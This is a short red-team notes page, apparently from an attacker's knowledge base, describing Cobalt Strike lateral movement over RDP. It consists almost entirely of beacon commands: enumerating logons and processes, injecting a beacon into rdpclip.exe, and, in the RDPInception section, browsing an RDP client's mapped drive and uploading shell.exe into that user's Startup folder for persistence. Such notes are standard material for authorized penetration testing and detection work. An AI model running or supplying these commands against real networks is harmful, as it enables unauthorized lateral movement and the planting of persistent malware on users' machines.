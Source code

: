 # Cobalt Strike

Search Tag(s): #lateral-movement #rdp #cobalt-strike #windows

TODO: Convert this with other C2 frameworks including other sections and test this

## RDP Process Injection

```
beacon> net groups

beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>
```

## RDPInception

```
beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>

beacon> ls \\tsclient\c

beacon> upload shell.exe \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Windows/Host Persistence/Backdoors/Startup/Manual/Living off the Land|Startup Persistence]]

### Hacktricks

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/rdp-sessions-abuse.html)